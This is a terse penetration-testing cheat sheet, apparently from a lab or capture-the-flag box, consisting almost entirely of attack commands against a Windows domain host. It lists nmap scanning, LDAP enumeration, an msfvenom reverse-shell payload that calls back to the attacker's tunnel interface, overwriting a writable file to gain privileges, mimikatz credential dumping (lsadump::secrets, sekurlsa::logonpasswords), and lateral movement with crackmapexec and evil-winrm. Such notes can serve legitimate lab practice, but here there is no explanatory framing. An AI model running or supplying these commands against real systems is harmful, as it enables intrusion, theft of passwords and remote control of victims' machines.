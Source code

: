# Service Enumeration
```python
nmap -sC -sV -Pn -n -p- --min-rate=400 --min-parallelism=512 [ip]
```

# Initial Access
```python
ldapsearch -x -b "dc=,dc=" -H ldap://ip

ssh user@ip
```

# Privilege Escalation
```python
icacls "file modifiable"

msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=662 -f exe > shell.exe

move "file modifiable"
curl "file shell" -o "file modifiable"
shutdown /r /t 1

whoami
hostname
ipconfig

curl "file mimikatz" -o "file mimikatz"
mimikatz.exe
privilege
lsadump::secrets
sekurlsa::logonpasswords

net user [user] /domain

crackmapexec winrm [ip] -u [user] -p [pass]

evil-winrm -i [ip] -u [user] -p [pass]
```